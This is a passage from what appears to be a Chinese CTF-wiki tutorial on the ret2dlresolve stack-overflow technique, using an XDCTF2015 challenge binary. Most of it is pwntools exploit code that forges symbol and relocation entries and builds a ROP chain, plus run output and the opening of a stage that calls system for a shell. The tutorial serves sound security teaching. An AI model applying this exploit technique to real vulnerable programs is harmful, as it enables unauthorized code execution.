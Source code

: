 ```python
## plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('write\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage5.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 129249
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

##### stage 6

这一阶段，我们只需要将原先的write字符串修改为system字符串，同时修改write的参数为system的参数即可获取shell。这是因为，dl_resolve最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
```